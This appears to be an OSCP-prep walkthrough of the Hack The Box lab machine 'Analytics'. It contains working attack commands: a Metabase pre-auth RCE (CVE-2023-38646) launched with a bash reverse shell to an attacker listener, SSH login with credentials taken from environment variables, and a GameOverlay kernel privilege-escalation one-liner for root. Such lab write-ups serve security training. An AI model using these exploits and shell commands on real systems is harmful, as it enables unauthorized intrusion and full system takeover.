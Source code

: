 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🔍 Scanning & Enumeration

```bash
ping <Analytics IP Address>                            # Verify host is up (TTL ~63 = Linux)
sudo nmap -T4 -A -p- <Analytics IP Address>            # Full aggressive scan
nano /etc/hosts                                        # Map domain + subdomain
# Example entry: <Analytics IP> analytical.htb data.analytical.htb
```

---

## 🕸️ [Web Application Analysis](HTTP)

```http
http://data.analytical.htb/auth/login                 # Found Metabase login portal
```

---

## 📌 Exploit CVE-2023-38646 (Metabase Pre-Auth RCE)

**Reference:** [GitHub - m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

```bash
# Get setup-token
curl http://data.analytical.htb/api/session/properties

# Start listener
sudo nc -nlvp 4444

# Launch exploit
python3 main.py -u http://data.analytical.htb -t <setup-token> -c "bash -i >& /dev/tcp/<your-IP>/4444 0>&1"
```

---

## 🐚 [Shell](SSH) Access & User PrivEsc

```bash
cd /home/metabase                                    # Check for user flag (none found)
env                                                  # Enumerate environment variables
ssh metalytics@<Analytics IP>                        # SSH using creds from env
cat user.txt                                         # Get user flag
```

---

## ⛏️ Privilege Escalation (Kernel Exploit)

### Check Permissions & Environment

```bash
id                                                   # Check UID/GID
mkdir /opt/testdir                                   # Check directory write permissions (denied)
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
cat /proc/version                                    # Find kernel version: Ubuntu 22.04.2
```

### Exploit CVE-2023-2640 / CVE-2023-32629

**Reference:** [GitHub - g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; \
setcap cap_setuid+eip l/python3; \
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && \
u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && \
chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

---

## 🔐 Root Access

```bash
cat /root/root.txt                                   # Get root flag
```